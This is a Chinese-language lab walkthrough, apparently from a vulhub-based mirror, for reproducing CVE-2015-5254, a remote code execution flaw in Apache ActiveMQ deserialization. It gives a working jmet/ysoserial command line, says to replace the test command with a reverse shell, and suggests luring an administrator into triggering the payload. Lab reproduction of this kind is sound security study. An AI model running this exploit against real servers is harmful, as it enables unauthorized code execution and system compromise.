 # （CVE-2015-5254）ActiveMQ 反序列化漏洞

> 原文：[https://www.zhihuifly.com/t/topic/2800](https://www.zhihuifly.com/t/topic/2800)

# （CVE-2015-5254）ActiveMQ 反序列化漏洞

## 一、漏洞简介

Apache ActiveMQ 5.13.0之前5.x版本中存在安全漏洞，该漏洞源于程序没有限制可在代理中序列化的类。远程攻击者可借助特制的序列化的Java Message Service(JMS)ObjectMessage对象利用该漏洞执行任意代码。

## 二、漏洞影响

Apache ActiveMQ 5.13.0之前的5.x版本

## 三、复现过程

漏洞利用过程如下：

1.  构造（可以使用ysoserial）可执行命令的序列化对象
2.  作为一个消息，发送给目标61616端口
3.  访问web管理页面，读取消息，触发漏洞

使用[jmet](https://github.com/ianxtianxt/jmet)进行漏洞利用。首先下载jmet的jar文件，并在同目录下创建一个external文件夹（否则可能会爆文件夹不存在的错误）。

jmet原理是使用ysoserial生成Payload并发送（其jar内自带ysoserial，无需再自己下载），所以我们需要在ysoserial是gadget中选择一个可以使用的，比如ROME。

执行：

```
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "touch /tmp/success" -Yp ROME your-ip 61616 
```

![image](img/c20d9a1e7d2015b6c24574dde28fcf54.png)

此时会给目标ActiveMQ添加一个名为event的队列，我们可以通过`http://your-ip:8161/admin/browse.jsp?JMSDestination=event`看到这个队列中所有消息：

![image](img/1a4d3b3d48c49d11126c045bfdf1d470.png)

点击查看这条消息即可触发命令执行，此时进入容器`docker-compose exec activemq bash`，可见/tmp/success已成功创建，说明漏洞利用成功：

![image](img/ac0d403e8d06368e45ff89daa9431aff.png)

将命令替换成弹shell语句再利用：

![image](img/bdca1ff0222f8e1d12b4b36ee75e500b.png)

值得注意的是，通过web管理页面访问消息并触发漏洞这个过程需要管理员权限。在没有密码的情况下，我们可以诱导管理员访问我们的链接以触发，或者伪装成其他合法服务需要的消息，等待客户端访问的时候触发。

## 参考链接

> https://vulhub.org/#/environments/activemq/CVE-2015-5254/